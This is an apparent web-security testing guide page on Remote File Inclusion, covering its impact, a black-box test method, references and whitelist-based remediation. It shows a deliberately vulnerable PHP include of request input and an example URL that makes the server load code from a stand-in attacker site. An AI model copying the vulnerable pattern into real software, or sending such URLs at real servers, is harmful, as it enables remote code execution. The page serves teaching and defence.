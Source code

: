 Summary
-------

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

-   Code execution on the web server
-   Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
-   Denial of Service (DoS)
-   Sensitive Information Disclosure

**Remote File Inclusion** (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

How to Test
-----------

Since RFI occurs when paths passed to “include” statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:

    $incfile = $_REQUEST["file"];
    include($incfile.".php");

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against a white list), so this snippet of code results vulnerable to this type of attack. Consider infact the following URL:

     
    http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

References
----------

**Whitepapers**

-   “Remote File Inclusion” - <http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion>
-   Wikipedia: “Remote File Inclusion” - <http://en.wikipedia.org/wiki/Remote_File_Inclusion>

Remediation
-----------

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain a white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.
